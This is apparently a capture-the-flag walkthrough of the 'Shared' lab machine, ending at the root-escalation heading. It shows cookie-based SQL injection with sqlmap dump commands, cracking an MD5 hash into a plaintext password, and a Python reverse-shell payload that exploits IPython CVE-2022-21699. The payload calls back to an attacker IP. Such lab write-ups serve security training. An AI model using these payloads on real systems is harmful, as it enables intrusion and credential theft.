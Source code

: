___
## Skills Covered

- Web Enumeration
- Basic Decompliation
- SQL Injection
___
## Tools used

- Ghidra
- NMAP
- sqlmap
- John
- pspy

___
## Enumeration

As always, start by running an NMAP scan of the server. The scan shows that Port 80 is serving a web server with the host name `http://shared.htb`. The scan also shows that Port 443 is serving the web server with HTTPS. The `commonName` part of the scan also suggests that the server is using a wildcard certificate, likely indicating that there are subdomains.

Attempting to connect to the web server on port 80 via the IP redirects automatically to `http://shared.htb`, so it is necessary to reflect this in `/etc/hosts`

Visiting the web page immediately presents 2 notifications. One about downtime caused by a full hard drive and the other explaining that there is a new checkout system. In CTF boxes, these notifications are usually a hint of the correct path, so it would be a good first step to begin enumerating the checkout system.

Discovered from experimenting with the page, the checkout system creates a new cookie when a product is added to the cart:

```
Set-Cookie custom_cart=%7B%22CRAAFTKP%22%3A%222%22%7D; expires=Mon, 31-Oct-2022
21:00:40 GMT; Max-Age=86400; path=/; domain=.shared.htb; secure; SameSite=None
```

When clicking 'Proceed to checkout', the application redirects to a new subdomain `checkout.shared.htb`. To enable correct functionality of the application and allow for further enumeration, add the domain to the `/etc/hosts` file.

Investigating the cookie further, the `custom_cart` variable is URL encoded. When decoded it takes the form `{ "Product_Code"} : { "quantity" }`. It is reasonable to assume that a database containing product information is running on the server, and that the web app is running an SQL query to translate the product code into description, prices, etc. Because of this, the best avenue to explore next is SQLi.

Attempting to use the value `{"CRAAFTKP'#":"1"}` for `custom_cart` returns the details for the `CRAAFTKP` product successfully, whilst using a different character such as a quote (`{"CRAFFTKP'":"1"}`) returns a `Not Found` product. This suggests that the application is vulnerable to an SQLi attack, because adding an illegal character `'` causes an error, whereas terminating the value with the SQL comment character `#` displays the correct product. This makes it highly likely that the application is parsing injected SQL code.

Now that the possible SQLi vulnerability has discovered, use `sqlmap` to exploit it and dump the databases:

```
sqlmap -u "https://checkout.shared.htb/" --cookie='custom_cart={"*":"1"}' --flush --fresh-queries --level=3 --risk=3 --dbs
```

SQLMap outputs that, alongside the default database, there is a database called checkouts. Dump the tables in this database using the following command:

```
sqlmap -u "https://checkout.shared.htb/" --cookie='custom_cart={"*":"1"}' --flush --fresh-queries --level=3 --risk=3 -D checkout --tables
```

Within the database there is an interesting table called `user`. Dump this table using the following command:

```
sqlmap -u "https://checkout.shared.htb/" --cookie='custom_cart={"*":"1"}' --flush --fresh-queries --level=3 --risk=3 -D checkout -T user --dump
```

This table contains a username and a hash that looks like MD5. This can be verified using `hashid [hash]`

Save the hash into a file with a name such as `james_mason.hash`. The hash can then be cracked using `john`.

```
john --wordlist=/usr/share/wordlists/rockyou.txt james_mason.hash --format=RAW-MD5
```

John outputs that the value of the hash is `Soleil101`. Now that credentials are gathered, attempt to SSH in using `james_mason` as the username, and the freshly cracked password.

Once SSH'd in, `ls` in the home folder of `james_mason` shows no interesting files. Looking at other visible home folders, there is a user `dan_smith`. In this users home folder there is the `user.txt` flag, but it is inaccessible.

## Lateral movement to `dan_smith` user

Running the `id` command shows that the `james_mason` user is part of the developer group:

```
uid=1000(james_mason) gid=1000(james_mason) groups=1000(james_mason),1001(developer)
```

Running `cat /etc/group | grep developer` shows that `dan_smith` is also part of this group.
Host a Python HTTP server with the `pspy` tool. This tool will show which processes other users are running.

Download the `pspy` tool from the HTTP server using `wget`.

After a few seconds, `pspy` shows that `UID=1001` is running a script in the `/opt/scripts_review/` folder. `UID=1001` is the User ID for `dan_smith`. 

```
CMD: UID=1001 PID=35307  | /bin/sh -c /usr/bin/pkill ipython; cd /opt/scripts_review/ && /usr/local/bin/ipython 
```

The script seems to be running `IPython`, which is a type of command shell. Check the version of IPython by running `ipython --version`. This command outputs that the running IPython version is `8.0.0`. A quick google search suggests that this version of the application is vulnerable to `CVE-2022-21699`.

Exploiting this vulnerability is extremely simple, and the [GitHub advisory](https://github.com/advisories/GHSA-pq7m-3gw7-gq5x) explains how this exploit works very well. Run the following command to gain a shell as `dan_smith`.

The following Python code serves as the payload of the exploit:

```
import socket,subprocess,os; s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);
s.connect(("10.10.14.8",8012)); os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);
os.dup2(s.fileno(),2); import pty; pty.spawn("sh")
```

Start a `nc` listener to catch this shell.

In order to get IPython to actually run this payload, create the necessary directories and files using a bash command:

```
mkdir -m 777 /opt/scripts_review/profile_default && mkdir -m 777 /opt/scripts_review/profile_default/startup && echo 'import socket,subprocess,os; s=socket.socket(socket.AF_INET,socket.SOCK_STREAM); s.connect(("10.10.14.8",8012)); os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2); import pty; pty.spawn("sh")' > /opt/scripts_review/profile_default/startup/test123.py
```

A few seconds after running this command, `nc` will receive a reverse shell as `dan_smith`. Retrieve the user flag from the home directory. There is also an SSH private key that can be used for a full SSH connection as `dan_smith` using `ssh -i /path/to/key dan_smith@shared.htb`

## Escalating to root.

